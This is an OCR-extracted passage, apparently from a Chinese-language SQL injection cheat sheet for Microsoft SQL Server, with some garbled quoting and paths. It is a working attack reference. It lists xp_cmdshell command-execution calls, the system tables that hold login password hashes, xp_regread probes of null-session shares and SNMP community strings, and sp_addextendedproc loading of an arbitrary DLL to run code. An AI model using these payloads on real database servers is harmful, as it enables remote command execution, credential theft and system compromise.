 用 ping 简单检查下 （在开始之前先配置好你的防火墙或嗅探器确认请求能发出）

EXEC master.dbo.xp_cmdshell ‘ping ‘

你无法从错误或 union 或其他的什么直接读取结果。

SQL Server 中的一些特殊表（S）

Error Messages
.sysmessages

Linked Servers
.sysservers

Password （2000 和 2005 版本都能被入侵，它们使用非常相似的哈希算法）
SQL Server 2000:.sysxlogins
SQL Server 2005 : sys.sql_logins

SQL Server 的其他存储过程（S）

命令执行（xp_cmdshell）

exec master..xp_cmdshell ‘dir’

注册表相关（xp_regread）

xp_regaddmultistring
xp_regdeletekey
xp_regdeletevalue
xp_regenumkeys
xp_regenumvalues
xp_regread
xp_regremovemultistring
xp_regwrite
exec xp_regread HKEY_LOCAL_MACHINE, ‘SYSTEMCurrentControlSetServiceslanmanserverparameters’, ‘nullsessionshares’
exec xp_regenumvalues HKEY_LOCAL_MACHINE, ‘SYSTEMCurrentControlSetServicessnmpparametersvalidcommunities’

管理服务（xp_servicecontrol）

媒体（xp_availablemedia）

ODBC 资源（xp_enumdsn）

登录模式（xp_loginconfig）

创建 Cab 文件（xp_makecab）

域名列举（xp_ntsec_enumdomains）

结束进程（需要进程 ID）（xp_terminate_process）

创建新程序（实际上你想执行什么都可以了）

sp_addextendedproc ‘xp_webserver’, ‘c:tempx.dll’
exec xp_webserver

将文本文件写进 UNC 或内部路径（sp_makewebtask）

MSSQL Bulk 说明
